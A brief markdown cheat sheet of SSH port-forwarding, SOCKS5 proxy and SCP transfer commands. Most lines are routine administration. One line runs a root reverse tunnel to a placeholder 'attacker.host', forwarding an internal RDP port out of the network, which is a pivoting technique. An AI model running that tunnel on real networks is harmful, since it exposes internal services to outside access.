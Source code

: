#### port forward

```ssh -L 8443:127.0.0.1:8443 user@remote.host```

```ssh -l root -t -t -R 3389:10.10.10.1:3398 attacker.host```

```ssh -i id_rsa.key -L6969:machine.to.touch:80 machine.for.proxy```
-----


#### port forward SOCKS5

```ssh -D 5555 user@yourserver.com -p 5555```
-----


#### SCP transfers

*Local (file) to remote host specifying remote port*

```scp -P 1337 file.zip username@remotehost.com:/remote/dir/file.zip```

*Local (directory) to remote host using default port 22*

```scp /local/dir/ username@remotehost.com:/remote/dir/```

*Remote host A to remote host B*

```scp username@host-a.com:/host_a/dir/file.zip username@host-b.com:/host_b/dir/file.zip```
-----


